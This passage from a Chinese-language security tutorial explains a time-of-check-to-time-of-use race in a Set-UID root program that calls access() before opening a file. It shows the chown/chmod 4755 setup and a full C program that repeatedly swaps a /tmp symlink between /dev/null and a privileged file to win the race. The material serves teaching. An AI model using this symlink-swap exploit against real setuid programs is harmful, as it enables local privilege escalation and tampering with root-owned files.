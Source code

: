 ```

```  
  
  
  
而且该程序属于root用户的Set-UID程序。  
  
  
```
程序权限的设置方法：
sudo chown root:root ./race_condition_example4vuln
sudo chmod 4755 ./race_condition_example4vuln

程序的权限展示：
ls -lh ./race_condition_example4vuln
-rwsr-xr-x 1 root root 19K Nov 16 01:32 ./race_condition_example4vuln

```  
  
##   
## 构造恶意程序  
  
从上方程序中我们可以发现，它先通过access检查权限（阶段1），access接口确认文件和进程的真实ID匹配之后，才会打开文件进行写操作（阶段2）。  
  
  
那么存不存在这样的一种情况，检查的文件是与进程发起者属于同用户的，但打开的文件属于root用户的呢？  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EficNsfyv6H2XuGwTPCuDQ5Tu8I5vNe3d3w6njKgxvV0vfFIj3NNZUFicYDJ4O8nSWibNZIemBgXR7A/640?wx_fmt=other&from=appmsg "")  
  
  
当然可以，虽然上方程序中制定了文件路径，但是Linux当中存在着一种名为软链接的文件，软连接提供了文件指向任意文件的能力。  
  
  
此时我们假设，阶段1时文件./AbCd指向一个当前用户可以访问的文件，在检查权限操作开始时，我们就趁着文件被打开前间隙将文件掉包，让进程打开高特权文件。  
  
  
```
#include <unistd.h>

#define TARGET_FILE_NAME		"/tmp/AbCd"
#define ACCESSIBLE_FILE_NAME	"/dev/null"
#define PRIVILEGE_FILE_NAME		"/tmp/private_data.bin"

void symlink_set(const char* taget_name, const char* src_name)
{
    unlink(src_name);
    symlink(taget_name, src_name);

    usleep(1000);
}

int main(void)
{
    while (1) {
        symlink_set(ACCESSIBLE_FILE_NAME, TARGET_FILE_NAME);
        symlink_set(PRIVILEGE_FILE_NAME, TARGET_FILE_NAME);
    }

    return 0;
}

```  
  